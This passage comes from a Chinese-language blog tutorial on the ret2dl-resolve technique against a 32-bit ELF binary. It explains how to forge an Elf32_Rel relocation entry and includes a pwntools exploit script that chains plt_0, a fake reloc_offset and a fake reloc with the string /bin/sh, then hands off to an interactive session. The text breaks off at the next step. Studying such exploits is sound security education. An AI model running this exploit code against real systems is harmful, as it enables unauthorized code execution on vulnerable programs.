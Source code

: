 把`reloc`的伪造值放入`payload2 += p32(len(cmd))`这一句后面，通过计算，位于`base_stage+28`的位置。

因此传入的`reloc_offset`是`(base_stage + 28) - rel_plt`

接下来要思考`reloc`填充一个假的什么值，前面已经说过`reloc`的格式是

```
typedef struct {
    Elf32_Addr r_offset;    // 对于可执行文件，此值为虚拟地址
    Elf32_Word r_info;      // 符号表索引
} Elf32_Rel;
#define ELF32_R_SYM(info) ((info)>>8)
#define ELF32_R_TYPE(info) ((unsigned char)(info))
#define ELF32_R_INFO(sym, type) (((sym)<<8)+(unsigned char)(type))
```

`.got`节保存了全局变量偏移表，`.got.plt`节保存了全局函数偏移表。我们通常说的got表指的是`.got.plt`。`.got.plt`对应着`Elf32_Rel`结构中`r_offset`的值。可以在pwntools通过`elf.got`拿到，就是在图中的`0x0804c01c`。

组装一下，假的`reloc`就是`p32(write_got) + p32(r_info)`，其中`r_info`就是我们在途中看到的`0x607`。

![](https://lgyserver.top/wp-content/uploads/2022/04/1-4.png)

```
...
cmd = "/bin/sh"
plt_0 = 0x08049020
rel_plt = 0x08048364 # objdump -s -j .rel.plt bof
reloc_offset = (base_stage + 28) - rel_plt # base_stage + 28指向fake_reloc，减去rel_plt即偏移
write_got = elf.got['write']
r_info = 0x607
fake_reloc = p32(write_got) + p32(r_info)

payload2 = 'AAAA'
payload2 += p32(plt_0)
# 放上假的offset，会让_dl_fixup它寻找到假的reloc值
payload2 += p32(reloc_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
# 放上假的reloc值
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

执行后，和上面的结果一样，输出了`/bin/sh`。

![](https://lgyserver.top/wp-content/uploads/2022/04/2-4.png)

## 步骤4：伪造reloc的r\_offset，从而伪造sym
